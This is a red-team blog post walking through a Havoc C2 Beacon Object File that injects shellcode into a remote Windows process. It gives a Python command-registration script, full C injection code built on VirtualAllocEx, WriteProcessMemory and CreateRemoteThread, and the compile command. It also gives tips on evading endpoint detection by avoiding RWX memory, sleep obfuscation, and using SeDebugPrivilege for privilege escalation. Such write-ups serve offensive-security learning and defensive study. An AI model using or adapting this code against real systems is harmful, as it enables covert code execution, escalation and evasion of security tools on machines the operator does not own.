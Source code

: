 [back to blog](../blog.md)

## Process Injection
This blog will outline a simple process injection in a remote process. The windows API that will be used are the following:

| Windows API | Usage 
| -------- | -------- 
| [Openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) | Will be used to open the handle of target process. 
| [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) | Will be used for allocating memory in the target process, allocated memory size will depend on the shellcode size. 
| [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) | Writes the shellcode in the allocated memory address.
| [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) | Will be used for changing the memory permission to read,execute (RX) instead of Read, Write, Execute (RWX).
| [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) | Will be used for creating a thread on the target process inorder to execute our shellcode.
| [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) | Close the open handle.

When creating a BOF, I **highly recommend starting with C code first**. Run it to verify that it works, **and then convert it into a BOF** once confirmed, that it's working convert it to BOF. This will save up some time debugging some issues on the code.

## Aggressor script

This time we will start first with an aggressor script. Edit the script previously used and add the new python function.

```py
<SNIPPED>
def run_procinj(demon_id, *args):
    
    task_id: str = None
    demon: Demon = None
    packer: Packer = Packer() 
    # Get the beacon instance
    demon = Demon(demon_id)
    binary: bytes = None

    if len(args) < 2:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Not enough arguments")
        return False

    # Get shellcode path
    path = args[0]

    # Check if the shellcode path exists
    if not exists(path):
        demon.ConsoleWrite(demon.CONSOLE_ERROR, f"Shellcode not found: {path}")
        return False

    # Read the shellcode from the specified path into 'binary' variable
    with open(path, 'rb') as handle:
        binary = handle.read()

    if not binary:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Specified shellcode is empty")
        return False

    # Add the arguments to the packer
    packer.addbytes(binary)
    packer.addint(int(args[1]))

    task_id = demon.ConsoleWrite(demon.CONSOLE_TASK, f"Tasked the demon to execute process injection on the process ID: {args[1]}")
   
    demon.InlineExecute(task_id, "go", "bin/test2.o", packer.getbuffer(), False)
    #testbof procinj /home/kali/mdev/havocbof/demon.x64.bin 1992
    return task_id

<SNIPPED>
RegisterCommand(run_procinj, "testbof", "procinj", "Performs a process injection on the target process", 0, "usage: ", "4512")
```

## BOF

When writing BOF, you often use **DECLSPEC_IMPORT** in function declarations like **DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE)** so the linker knows the function is imported from Windows DLL like (e.g., kernel32.dll, advapi32.dll). The DECLSPEC_IMPORT and the $ prefixed symbol names to ensure Beacon can resolve them at runtime. **Module$Function**

Why it matters for BOFs:

- BOFs are compiled as object files (.o) without the standard runtime.
- You don’t link against Windows libraries directly.


More information at [DFR](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm)


```c
#include <windows.h>
#include "beacon.h"

//kernel32 dll
DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$CreateRemoteThread(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$GetLastError(void);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$VirtualProtectEx(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD);


void go(char* args, int argc){
    
    datap parser;
    DWORD procid;
    DWORD   dwOldProtection = NULL;
    PSTR  shellcode = { 0 };
    DWORD shellcodeLength    = { 0 };
    SIZE_T  sNumberOfBytesWritten = NULL;
    HANDLE pHandle;
    HANDLE rthreadHandle;
    PVOID bufferMemoryaddr;
    DWORD tid = 0;

    //Beacon data parser
    BeaconDataParse(&parser, args, argc);
    

    shellcode = BeaconDataExtract(&parser, &shellcodeLength);
    procid = BeaconDataInt(&parser);

    //prints hello world
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Target PID: %d", procid);

    pHandle = KERNEL32$OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);
    if (!pHandle){
        BeaconPrintf(CALLBACK_OUTPUT, "[x] Failed to open process error code: %d\n", KERNEL32$GetLastError());
        return 1; //failure
    }

    bufferMemoryaddr = KERNEL32$VirtualAllocEx(pHandle, NULL, shellcodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!bufferMemoryaddr) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to allocate memory: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT,"[!] memory allocated at: 0x%p\n", bufferMemoryaddr);

    if (!KERNEL32$WriteProcessMemory(pHandle, bufferMemoryaddr, shellcode, shellcodeLength, &sNumberOfBytesWritten)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] WriteProcessMemory Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }
    if (!KERNEL32$VirtualProtectEx(pHandle, bufferMemoryaddr, shellcodeLength, PAGE_EXECUTE_READ, &dwOldProtection)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] VirtualProtectEx Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }

    rthreadHandle = KERNEL32$CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)bufferMemoryaddr, NULL, 0, &tid);
    if(!rthreadHandle){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to create remote thread: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT, "[!] remote thread id : %lu \n", tid);
    KERNEL32$CloseHandle(pHandle);

}
```

```bash
x86_64-w64-mingw32-gcc -c src/procinj.c -w -o bin/test2.o 
```
Get a shell, then execute the BOF. As shown from the screenshot below it shows the memory address that has been allocated on the target process and it's remote thread ID for debugging purpose.
![alt text](img/image4.png)
![alt text](img/image-1.png)


Just a little information on how to check what was written on the memory address you can use **x64dbg, attach to the target process then press ctrl + g, paste the memory address**. In this screenshot I change my payload to msfvenom calc bin so it can be easier to read. As shown we can see the signatured `FC 48 83` and then the calc.exe
![alt text](img/image-2.png)

My havoc payload that I used, performs a sleep obfuscation technique with WaitForSingleObjextEx. TL;DR: Sleep obfuscation **changes the memory protection from RW to RX, and then back to RW** [sleep obfuscation](https://dtsec.us/2023-04-24-Sleep/)

To check what happens on sleep, use process hacker, check the target process and then go to the threads, locate the thread id. The screenshot below shows when it's on sleep. 
![alt text](img/image22.png)

The screenshot below shows when it's not on sleep. As observe it's using winHTTP library for the communication.

![alt text](img/image5.png)

If you are trying to perform a process injection on a process owned by other user or a process owned by NT authority and you dont have enough privilege. This wont be possible because of access control restrictions. But if you enable SeDebugPrivilege you will be able to inject and gain the token permission level of the target process resulting into privilege escalation.
![alt text](img/image-3.png)


I changed the VirtualAllocEx with page execute read write and comment out the VirtualProtectEx to see the difference and also without the sleep obfuscation from have. I used the metasploit calc here for POC.

As shown from the screenshot below the RWX stands out and most endpoint security solution flags this and gets highly detected, so the better approach is to change it to RX. If you change it to Read it wont be executed. Clicking on the RWX this shows what was written on that memory and it shows the metasploit calc.
![alt text](img/image6.png)

References
- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm
- https://dtsec.us/2023-04-24-Sleep

[back to blog](../blog.md)